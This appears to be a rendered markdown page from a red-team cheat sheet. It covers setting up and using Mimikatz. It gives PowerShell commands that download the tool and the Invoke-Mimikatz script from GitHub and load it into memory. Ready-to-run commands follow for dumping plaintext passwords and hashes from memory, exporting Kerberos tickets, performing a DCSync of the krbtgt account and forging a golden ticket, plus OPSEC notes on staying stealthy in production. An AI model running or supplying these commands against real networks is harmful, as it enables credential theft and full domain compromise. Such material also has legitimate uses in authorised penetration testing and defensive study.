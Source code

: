 
## 🔐 **ADVANCED EXPLOITATION TOOLS**

### **🎭 Mimikatz Complete Setup** ^mimikatz

#### **What is Mimikatz?**
**Mimikatz** is a post-exploitation tool for extracting plaintext passwords, hashes, and Kerberos tickets from memory. It's essential for credential harvesting and privilege escalation.

#### **Setup & Installation**
```powershell
# Step 1: Download Mimikatz
# Option A: From GitHub
Invoke-WebRequest -Uri "https://github.com/gentilkiwi/mimikatz/releases/latest/download/mimikatz_trunk.zip" -OutFile "mimikatz.zip"
Expand-Archive -Path "mimikatz.zip" -DestinationPath ".\mimikatz" -Force

# Option B: From local file
# Ensure mimikatz.exe is in your current directory

# Step 2: PowerShell wrapper (recommended)
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1" -OutFile "Invoke-Mimikatz.ps1"
. .\Invoke-Mimikatz.ps1
```

#### **Mimikatz Usage Examples**
```powershell
# Example 1: Extract all credentials from memory
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"'

# Example 2: Extract Kerberos tickets
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

# Example 3: DCSync attack (requires DCSync rights)
Invoke-Mimikatz -Command '"lsadump::dcsync /user:corp\krbtgt"'

# Example 4: Golden ticket creation
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /krbtgt:KRBTGT_HASH /ptt"'
```

#### **Mimikatz OPSEC Considerations**
```powershell
# OPSEC Profile 1: Stealth (production)
# Use native Windows commands when possible
# Minimize Mimikatz usage

# OPSEC Profile 2: Balanced (lab)
# Use Mimikatz selectively
# Implement delays between operations

# OPSEC Profile 3: Noisy (internal lab)
# Full Mimikatz functionality
# Rapid execution for learning
```

---